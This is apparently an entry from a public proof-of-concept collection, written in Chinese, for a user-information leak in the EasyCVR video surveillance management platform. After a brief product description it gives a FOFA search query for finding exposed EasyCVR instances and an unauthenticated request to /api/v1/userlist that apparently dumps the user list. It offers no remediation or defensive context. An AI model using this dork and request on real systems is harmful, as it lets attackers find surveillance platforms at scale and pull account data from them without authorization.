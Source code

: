 ## EasyCVR 视频管理平台存在用户信息泄露
EasyCVR 智能视频监控综合管理平台是一种针对大中型用户在跨区域网络化视频监控集中管理领域的安防管理软件。它具备多项功能，包括信息资源管理、设备管理、用户管理、网络管理和安全管理。该平台能够实现监控中心对所有视频监控图像的集中管理，并支持多个品牌设备的联网，确保联网视频监控传输质量，并提供资源统一检索和数据共享的功能。

## fofa
```
title="EasyCVR"
```
![image](https://github.com/user-attachments/assets/060759e7-f214-4953-9ffa-71750429fe51)

## poc
```
/api/v1/userlist?pageindex=0&pagesize=10

```
![image](https://github.com/wy876/POC/assets/139549762/cc8c8dd3-bd7e-49a9-b22f-a6a97215cf6a)
